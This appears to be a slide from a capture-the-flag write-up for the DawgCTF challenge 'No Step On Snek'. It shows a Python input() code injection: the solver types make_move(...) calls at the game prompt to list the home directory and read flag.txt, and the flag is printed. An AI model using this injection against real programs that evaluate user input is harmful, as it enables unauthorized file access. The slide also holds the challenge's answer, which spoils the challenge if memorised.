

# No Step On Snek
Make your move: make_move(os.listdir('/home/challuser'))
['.bashrc', '.profile', '.bash_logout', 'nosteponsnek.py', 'flag.txt']
Make your move: make_move(open('flag.txt', 'rt').read())
DawgCTF{bUt_iT'5_c@ll3d_1nput}